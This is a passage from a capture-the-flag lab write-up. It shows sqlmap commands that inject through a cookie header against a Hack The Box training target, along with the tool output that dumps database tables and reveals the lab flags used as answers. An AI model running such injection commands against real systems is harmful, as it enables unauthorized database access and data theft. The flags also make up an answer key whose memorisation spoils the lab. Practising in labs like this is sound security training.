 ```
| 1  | HTB{700_much_c0n6r475_0n_p057_r3qu357} |
+----+----------------------------------------+

[06:46:23] [INFO] table 'testdb.flag2' dumped to CSV file '/home/kali/.local/share/sqlmap/output/157.245.33.77/dump/testdb/flag2.csv'
[06:46:23] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/157.245.33.77'

[*] ending @ 06:46:23 /2022-07-03/
```

**Answer:** `HTB{700_much_c0n6r475_0n_p057_r3qu357}`

### Question 2:
![](./attachments/Pasted%20image%2020220703114935.png)

*Hint: Try to see where the 'id=1' is sent, and specify this location as the injection mark.*

Insert `*` into cookie value, `'Cookie: id=1*'`.

```
┌──(kali㉿kali)-[~]
└─$ sqlmap 'http://157.245.33.77:32596/case3.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'Referer: http://157.245.33.77:32596/' -H 'Cookie: id=1*' -H 'Upgrade-Insecure-Requests: 1' --batch --dump         
        ___
       __H__                                                                                                                                                                              
 ___ ___[(]_____ ___ ___  {1.6.5#stable}                                                                                                                                                  
|_ -| . ["]     | .'| . |                                                                                                                                                                 
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:55:23 /2022-07-03/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[06:55:23] [INFO] testing connection to the target URL
(...)
[06:56:42] [INFO] fetching entries for table 'flag3' in database 'testdb'
Database: testdb
Table: flag3
[1 entry]
+----+------------------------------------------+
| id | content                                  |
+----+------------------------------------------+
| 1  | HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475} |
+----+------------------------------------------+
```